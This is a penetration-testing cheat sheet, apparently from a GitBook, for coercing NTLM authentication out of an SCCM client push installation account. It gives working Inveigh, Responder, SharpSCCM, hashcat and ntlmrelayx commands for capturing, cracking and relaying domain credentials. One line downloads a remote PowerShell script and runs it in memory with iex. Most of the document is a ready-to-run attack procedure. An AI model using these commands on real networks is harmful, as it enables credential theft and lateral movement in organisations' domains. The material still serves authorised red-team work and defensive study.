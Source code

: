 # Client Push

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/elevate-2-client-push

## Description

It is possible to coerce NTLM authentication from a site servers push installation account and machine account. The NTLM authentication can either be cracked offline or relayed elsewhere for authentication.

## Requirements

1) SCCM automatic site assignment and automatic client push installation are enabled

2) PKI certificates aren’t required for client authentication

3) SMB Signing disabled (If relaying authentication)

4) Domain user credentials

5) Local Administrator (If performing from Windows)

6) Fallback to NTLM authentication is not explicitly disabled (default)

## Credential Capture

### 1) Setup Capture

#### Windows

Setup Inveigh or Invoke-Inveigh to sniff for network traffic (Local Admin Required)

    Inveigh.exe

    iex (iwr -usebasicparsing https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)

    Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -Proxy Y -HTTPS Y -IP [Local IP>

#### Linux

Set up Responder to listen for network traffic in analyse mode.

    sudo python3 /usr/share/Responder.py -I [Interface] -A

### 2) Trigger client push installation

Trigger the client push on the site server, targeting the listening host. This process may take a couple of minutes to capture

##### SharpSCCM

    SharpSCCM.exe invoke client-push -sms [SMS Site IP] -sc [Site Code] -t [Listening IP]

### 3) Crack the hash with Hashcat

    hashcat.exe -m 5600 -a 0 -o hash.txt Wordlists\kaonashi14M.txt rules\best64.rule

## Relay Authentication

### 1)  ntlmrelayx setup

#### Windows

Before setting up ntlmrelayx on Windows we need to divert SMB traffic on port 445 to an alternate port such as 8445 with divertTCPConn (Local Administrator Required)

    divertTCPconn.exe 445 8445

Configure ntlmrelayx

    ntlmrelayx.exe --smb-port 8445 -smb2support --smb-port 8445 -ts -t [Relay Target]

#### Linux

    impacket-ntlmrelayx -smb2support -ts -ip [Interface IP] -t [Relay Target]

Trigger Push authentication then wait a minute or two to capture the authentication request.

    SharpSCCM.exe invoke client-push -sms [Site Server] -sc [Site Code] -t [Relay IP]
